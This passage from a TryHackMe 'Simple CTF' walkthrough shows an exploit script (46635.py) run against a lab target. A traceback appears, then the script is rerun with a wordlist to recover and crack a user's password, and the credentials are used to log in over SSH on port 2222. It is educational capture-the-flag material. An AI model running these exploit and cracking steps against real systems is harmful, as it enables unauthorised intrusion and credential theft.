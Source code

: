 ```bash
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[*] Try: 0c01f4468bd75d7a84c7eb73846e8d96$
[*] Now try to crack password
Traceback (most recent call last):
  File "/home/kali/Downloads/46635.py", line 184, in <module>
    crack_password()
  File "/home/kali/Downloads/46635.py", line 53, in crack_password
    for line in dict.readlines():
  File "/usr/lib/python3.10/codecs.py", line 322, in decode
    (result, consumed) = self._buffer_decode(data, self.errors, final)
UnicodeDecodeError: 'utf-8' codec can't decode byte 0xf1 in position 923: invalid continuation byte
```
15. `gedit 46635`

![](https://github.com/KnowCybersecurity/TryHackMe-Writeups/blob/main/TryHackMe%20CTF%20Writeups/Assets/THM%20-%20Simple%20CTF/Editing%2046635.py%20pt2.png)

16. `python3 46635 -u http://{TARGET IP}/simple --crack -u {WORDLIST PATH}` to execute the exploit once again, which eneded up working and providing us with a set of credentials that we can use to authenticate as when connecting to the target
```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 46635 -u http://10.10.130.66/simple --crack -w rockyou.txt

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[*] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[*] Password cracked: secret
```

#
> Connecting to the Target Using SSH
17. `ssh {USERNAME}@{TARGET IP} -p 2222` to establish an SSH connection to the target's server using the set of credentials that we now have and the SSH server that's running on port 2222 
```bash
┌──(kali㉿kali)-[~]
└─$ ssh mitch@10.10.130.66 -p 2222
mitch@10.10.130.66 password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$
```
18. `whoami` to verify that we're running as the user we originally connected as through SSH
19. `pwd` to print the current working directory's full path onto our terminal
20. `ls` to list the available files and directories that are in our current working directory onto our terminal
21. `cat {USER TEXT FILE}` to display the contents of the user text file we found onto our terminal, which ended up containing the user flag for this challenge
```bash
$ whoami
mitch
```
```bash
$ pwd
/home/mitch
```